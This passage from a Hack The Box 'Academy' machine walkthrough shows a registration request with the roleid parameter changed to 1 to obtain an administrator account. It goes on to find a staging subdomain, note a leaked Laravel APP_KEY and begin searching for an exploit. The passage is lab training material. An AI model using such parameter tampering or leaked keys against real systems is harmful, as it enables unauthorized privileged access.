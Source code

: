 o after changing with other numbers like 10,9,8...........1 I thought a higher number will give us admin but when I changed it to 1. 

Request
![Desktop View]({{ "/assets/img/htb-machines/academy/8.png" | relative_url }})
```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=q1nn1qd514akhbcvn68rnvghcs
Upgrade-Insecure-Requests: 1

uid=software&password=123&confirm=123&roleid=1
```
and I tried logging in as an administrator account. because in gobuster i got admin.php 

![Desktop View]({{ "/assets/img/htb-machines/academy/9.png" | relative_url }})
i got successfully logged in as admin 

![Desktop View]({{ "/assets/img/htb-machines/academy/10.png" | relative_url }})

# Admin Account

![Desktop View]({{ "/assets/img/htb-machines/academy/11.png" | relative_url }})

we have got a subdomain here ```dev-staging-01.academy.htb```let's add this subdomain in the hosts' file.

# dev-staging-01.academy.htb 

Let's visit `dev-staging-01.academy.htb` and thats an laravel app 


![Desktop View]({{ "/assets/img/htb-machines/academy/12.png" | relative_url }})

we have got an APP_KEY `dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=`

![Desktop View]({{ "/assets/img/htb-machines/academy/13.png" | relative_url }})

i started googling about this app-key and started looking for exploit

![Desktop View]({{ "/assets/img/htb-machines/academy/14.png" | relative_url }})
